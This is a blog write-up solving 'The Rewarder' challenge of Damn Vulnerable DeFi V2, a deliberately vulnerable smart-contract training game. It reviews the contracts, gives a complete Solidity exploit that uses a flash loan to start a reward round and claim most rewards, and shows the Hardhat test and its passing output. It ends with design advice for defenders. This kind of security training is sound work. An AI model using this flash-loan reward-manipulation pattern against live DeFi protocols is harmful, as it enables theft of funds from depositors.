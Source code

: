 # Damn Vulnerable DeFi V2 - #5 The Rewarder

<p className="text-xs text-right">December 1, 2021 by [patrickd](/about#patrickd)</p>


This is Part 2 of the [Damn Vulnerable DeFi V2](https://www.damnvulnerabledefi.xyz/v2-release.html) writeup. You can find the Setup and Challenges 1 to 4 in the [previous article](/posts/2021/11/13/damn-vulnerable-defi-v2-part-1-setup-and-challenges-1-to-4).

<Callout type="warning">
  Remember, don't read this unless you really want to be spoiled!
</Callout>

---

## Code Review

>There's a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.
>
>Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!
>
>You don't have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.
>
>Oh, by the way, rumours say a new pool has just landed on mainnet. Isn't it offering DVT tokens in flash loans?

This is a big one! Four contracts and even the test suite has a lot of code. And it sounds like we have to make use of flash loans in order to get rewards despite not being able to lock the loans up for 5 days?

Let's not get overwhelmed and start with the [test setup](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/test/the-rewarder/the-rewarder.challenge.js) again. The flash loan pool gets a million token right from the start, and each of the 4 people mentioned get 100 DVT, which are immediately deposited by them into the rewarder pool. After this initial setup, time is advanced by 5 days and a round of rewards is paid out: 25 reward tokens for each person.

The success conditions require that the participants so far, only get 0.01 or less reward tokens, while the attacker earns nearly 100 tokens. All of this must happen in the next round and the attacker may not have any DVT tokens at the end (cause he is supposed to borrow them).

Starting with the contract I expect to have the least code, [RewardToken.sol](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/contracts/the-rewarder/RewardToken.sol) is a relatively simple ERC20 token, with the only difference to DVT that its creator may mint unlimited amounts of it. I didn't expect anything to stand out here but actually that "`@dev A mintable ERC20 with 2 decimals to issue rewards`" comment is rather strange. That is because the default `decimals()` function of OpenZeppelin's ERC20 implementation returns `18` and there's nothing in RewardToken overriding that. Did we already stumble upon the issue? Inconsistent handling of decimals? Or just an oversight from the refactoring to v2?

Let's next look at [FlashLoanerPool.sol](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/contracts/the-rewarder/FlashLoanerPool.sol) since we should be fairly familiar with it at this point and it's probably the tool we're supposed to use to exploit the rewarder contract with. And yes, it's the typical pattern, just this time the borrowing contract needs to implement a `receiveFlashLoan(uint256)` function to be notified about the loan.

Next [AccountingToken.sol](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/contracts/the-rewarder/AccountingToken.sol), which I expect are given in return for DVT deposits made into the rewarder contract? It looks more complicated than it is: Basically its creator may freely mint and burn tokens, to and from any address. Transfers and allowances appear to have been disabled. And it's possible to create snapshots of the current balances (accessible via `balanceOfAt()`), that are likely made for each round of rewards. See [OpenZeppelin's ERC20 Snapshot](https://docs.openzeppelin.com/contracts/3.x/api/token/erc20#ERC20Snapshot) extension for more information.

Finally we look at where the magic is supposed to happen, [TheRewarderPool.sol](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/contracts/the-rewarder/TheRewarderPool.sol)'s constructor looks as expected: It deploys the accounting and reward token contracts, and then creates the first snapshot starting the first round. The inline comment "`// Assuming all three tokens have 18 decimals`" stands a bit out though, while it's correct it's in conflict with the pevious comment we found in the RewardToken contract.

Continuing on, it has 3 public/external functions that can be called by anyone: `deposit(uint)`, `withdraw(uint)` and `distributeRewards()`. Deposit and withdraw do just about what you would expect, they exchange your DVT with the accounting tokens, with the only difference that depositing also triggers the reward distribution function. `distributeRewards()` first checks whether enough time has passed to start a new round, if so it creates a snapshot. Either way, it calculates the callers rewards based on how much he has deposited compared to all other users. It then checks whether the caller has already retrieved their reward for the current round, if not, the calculated amount of reward tokens is minted.

After understanding how reward distribution works, I finally noticed the issue: If you time it right and start the new round with your deposit, you can claim the reward for that round immediately and withdraw. Doing all of that from another contract, meaning in a single transaction, you can make use of a flashloan and claim the majority of the rewards. I'm not quite sure about this yet though, since it requires you to manipulate time and seems a bit easy to be honest - but let's try it:

---

## Exploit

```solidity showLineNumbers filename="RewarderExploit.sol" {45-63} copy
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IDamnValuableToken {
    function approve(address spender, uint256 amount) external returns (bool);
    function transfer(address recipient, uint256 amount) external returns (bool);
}

interface IRewardToken {
    function transfer(address recipient, uint256 amount) external returns (bool);
}

interface ITheRewarderPool {
    function liquidityToken() external returns (IDamnValuableToken);
    function rewardToken() external returns (IRewardToken);
    function deposit(uint256 amountToDeposit) external;
    function withdraw(uint256 amountToWithdraw) external;
    function distributeRewards() external returns (uint256);
}

interface IFlashLoanerPool {
    function flashLoan(uint256 amount) external;
}

interface IFlashLoanReceiver {
    function receiveFlashLoan(uint256 amount) external;
}

contract RewarderExploit is IFlashLoanReceiver {
    address immutable attacker;
    uint256 immutable TOKENS_IN_LENDER_POOL;
    IFlashLoanerPool immutable flashLoanerPool;
    ITheRewarderPool immutable rewarderPool;
    IDamnValuableToken immutable liquidityToken;
    IRewardToken immutable rewardToken;
    constructor(uint256 _tokensInLenderPool, address _flashLoanerPool, address _rewarderPool) {
        attacker = msg.sender;
        TOKENS_IN_LENDER_POOL = _tokensInLenderPool;
        flashLoanerPool = IFlashLoanerPool(_flashLoanerPool);
        rewarderPool = ITheRewarderPool(_rewarderPool);
        liquidityToken = ITheRewarderPool(_rewarderPool).liquidityToken();
        rewardToken = ITheRewarderPool(_rewarderPool).rewardToken();
    }

    // Only start the exploit if TheRewarderPool's lastRecordedSnapshotTimestamp is older than 5 days!
    function pwn() external {
        // Take a loan.
        flashLoanerPool.flashLoan(TOKENS_IN_LENDER_POOL); // Triggers callback.
    }

    // The flashloan callback.
    function receiveFlashLoan(uint256 amount) external override {
        // Deposit all of the borrowed tokens.
        liquidityToken.approve(address(rewarderPool), amount);
        rewarderPool.deposit(amount); // Triggers snapshot and distribution of rewards.
        // Transfer rewards to attacker EOA.
        uint256 rewards = rewarderPool.distributeRewards(); // Doesn't have any effect but quickly gives us the amount of rewards.
        rewardToken.transfer(attacker, rewards);
        // Withdraw all of the liquidity tokens again.
        rewarderPool.withdraw(amount);
        // Pay back the flash loan.
        liquidityToken.transfer(address(flashLoanerPool), amount);
    }

}
```

That's a lot of interfaces now, but I left them in place instead of importing the contracts thinking it probably makes the code more easily understood when read here on the web.

Just like in the previous challenge we again have to deploy this contract and call the `pwn()` function. But this time we have to make sure to trigger the exploit only when the timing is right: We need to be the ones starting the new round.

```javascript filename="the-rewarder.challenge.js" copy
it('Exploit', async function () {
    // Deploy exploit contract.
    const ExploitFactory = await ethers.getContractFactory('RewarderExploit', attacker);
    const exploit = await ExploitFactory.deploy(TOKENS_IN_LENDER_POOL, this.flashLoanPool.address, this.rewarderPool.address);
    // We simulate waiting just long enough for the next round to start.
    await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]); // 5 days
    // Execute exploit!
    await exploit.pwn();
});
```

And indeed, it appears we've solved it the intended way, I think?

```bash
ubuntu@damnsvulndefi:~/damn-vulnerable-defi$ yarn run the-rewarder
yarn run v1.22.17
$ yarn hardhat test test/the-rewarder/the-rewarder.challenge.js
$ /home/ubuntu/damn-vulnerable-defi/node_modules/.bin/hardhat test test/the-rewarder/the-rewarder.challenge.js


  [Challenge] The rewarder
    ✓ Exploit (112ms)


  1 passing (1s)

Done in 2.62s.
```

---

## Conclusion

Learning? It's not so simple this time, since it wasn't a typical "vulnerability" but rather a naive implementation. Even if you'd force the round-start (snapshot) to be within a different transaction/block than the deposit of liquidity in order to prevent attacks from flash loans, a user with lots of tokens could still simply deposit them at the end of a round and withdraw immediately after claiming their rewards after the new round was started. Your protocol probably wants to incentivize long-term staking and not, short-term arbitrage trades. So it would probably be best to get rid of rounds and instead reward users for every second they are providing liquidity like many modern DeFi projects are doing today.